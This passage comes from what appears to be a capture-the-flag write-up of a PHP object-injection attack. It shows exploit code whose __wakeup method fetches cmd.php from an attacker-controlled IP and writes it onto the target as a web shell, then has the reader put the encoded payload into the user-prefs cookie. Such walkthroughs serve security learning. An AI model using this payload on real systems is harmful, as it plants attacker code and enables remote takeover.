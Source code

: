 ```php
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.16.91/cmd.php";
    public $imgPath = "cmd.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$obj = new UserPrefs();

echo "Serialized payload: ".serialize($obj);
echo "\n";
echo "Serialized payload and base64 encoded: ".base64_encode(serialize($obj));
echo "\n";
?>
```

After being logged in we can simply change `user-prefs` with payload that was generated.

![picture 9](/assets/images/d09473acf14cebf60604390bc31e01b3c8775de468373e39e8e3eee945fda72e.png)  

If everything has been done right, our `cmd.php` should have been uploaded!

Looks good:

